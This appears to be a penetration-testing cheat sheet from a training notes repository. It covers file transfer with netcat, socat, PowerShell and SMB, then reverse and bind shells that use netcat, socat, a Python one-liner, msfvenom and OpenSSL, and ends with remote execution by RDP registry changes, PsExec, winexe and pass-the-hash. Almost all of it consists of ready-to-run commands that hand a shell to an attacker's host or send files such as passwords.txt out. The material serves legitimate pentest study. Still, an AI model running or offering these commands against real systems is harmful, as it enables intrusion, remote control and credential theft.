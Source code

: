 ## File Transfers
- netcat
	- send wget.exe to a nc listener on port 4444:
	`nc -nv {ip-address} 4444 < /usr/share/windows-resources/binaries/wget.exe`
	- receive a file on port 4444 and name it wget.exe:
	`nc -nlvp 4444 > wget.exe`

- socat
	- Share a file called passwords.txt on port 443:
	`sudo socat TCP4-LISTEN:443,fork file:passwords.txt`
	- Receive a file being hosted on port 443 and save it to passwords.txt:
	`socat TCP4:{ip-address}:443 file:passwords.txt,create`

- powershell 
	- `Set-ExecutionPolicy Unrestricted` must be applied beforehand
	- Download wget.exe from a websever (such as a SimpleHTTPServer) :
	 `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://{ip-address}/wget.exe','C:\Users\offsec\Desktop\wget.exe')" `

- SMB
	- set up a SMB server on Kali with a share called Tools in the wd
	`sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py tools .`
	- copy a file from Kali to Windows
	`copy \\{ip-address}\tools\file.ext file.ext`
	- copy a file from Windows to Kali
	`copy file.ext \\{ip-address}\tools\file.ext`

## Reverse Shells
Victim connnects and attacker listens. Used 95% of the time.

- netcat
	- attacker runs: `nc -nlvp 4444`
	- victim runs: `nc -nv {ip-address} 4444 -e /bin/bash` 

- socat
	- attacker runs: `sudo socat -d -d  TCP4-LISTEN:4444 STDOUT`
	- victim runs (linux): `socat TCP4:{ip-address}:4444 EXEC:/bin/bash`
	- victim runs (windows): `socat TCP4:{ip-address}:4444 EXEC:cmd.exe,pipes`

- netcat without `-e` or `-c` on victim
	- attacker runs: `nc -nlvp 4444`
	- victim runs: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {ip-address} 1234 >/tmp/f`

- msfvenom to create reverse shell binaries
	- windows: `msfvenom -p windows/x64/shell_reverse_tcp LHOST={ip-address} LPORT={port} -f exe -o reverse.exe`
	- linux: 
	- attacker can set up a listener with netcat of metasploit's multi/handler

- python
	- attacker runs: `nc -nlvp 4444`
	- victim runs: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("PUT-IP-HERE",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

- upgrade a bad shell with pty: `python -c 'import pty; pty.spawn("/bin/bash")'` 

## Bind Shells
Victim listens and attacker connects. Useful when bypassing firewalls or when reverse shells "just don't work".

- netcat
	- victim runs: `nc -nlvp 4444 -e cmd.exe`
	- attacker runs: `nc -nv 10.11.0.22 4444`

- socat
	- victim runs (linux): `socat -d -d TCP4-LISTEN:4444 EXEC:/bin/bash`
	- victim runs (windows): `socat -d -d TCP4-LISTEN:443 EXEC:cmd.exe,pipes`
	- attacker runs: `socat - TCP4:{ip-address}:4444`

## Encrypted shells with OpenSSL
Utilize SSL certificates to encrypt data sent between hosts

### Generate the cert
- create an openssl certificate
	- `openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 100 -out bind_shell.crt`
- concatenate the certififcate and private key into a .pem file
	- `cat bind_shell.key bind_shell.crt > bind_shell.pem`

### Reverse shell
- attacker socat listener utilizing the cert (linux)
	- `sudo socat OPENSSL-LISTEN:443,cert=cert.pem,verify=0,fork`
- victim socat SSL connection to listener (windows)
	- `socat - OPENSSL:{ip-address}:443,verify=0 EXEC:cmd.exe,pipes`

### Bind Shell
- transfer cert to victim if openssl is not installed locally
- victim socat listener utilizing the cert (windows)
	- `socat OPENSSL-LISTEN:443,cert=cert.pem,verify=0,fork EXEC:cmd.exe,pipes`
- attacker socat SSL connection to listener (linux)
	- `socat - OPENSSL:{ip-address}:443,verify=0`

## Other Windows Shell-like options
- RDP
	- Create a regfile.reg file with `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalService` inside
	- `"fDenyTSConnections"=dword:00000000"`
	- `reg import regfile.reg`
	- `net start "termservice"`
	- `sc config termservice start= auto`
	- `net start termservice`
- [PSExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec): a light-weight telnet-replacement that lets you execute processes on other systems
	- `.\PsExec64.exe -accepteula -i -s C:\path\to\reverse.exe` (see msfvenom to create reverse shell binaries)
	- **don't** use this on real client systems! (it leaves artifacts)
- [Winexe](https://tools.kali.org/maintaining-access/winexe): remotely execute commands on Windows from a Linux machine
	- requires creds. If the creds you have are admin, you can use the --system option to spawn a system shell.
	- `winexe -U '{user}%{password}' //{ip-address} cmd.exe`
- Pth-winexe: pass-the-hash version of Winexe
	- `pth-winexe -U '{user}%{LM-hash}:{NTLM-hash}' //{ip-address} cmd.exe`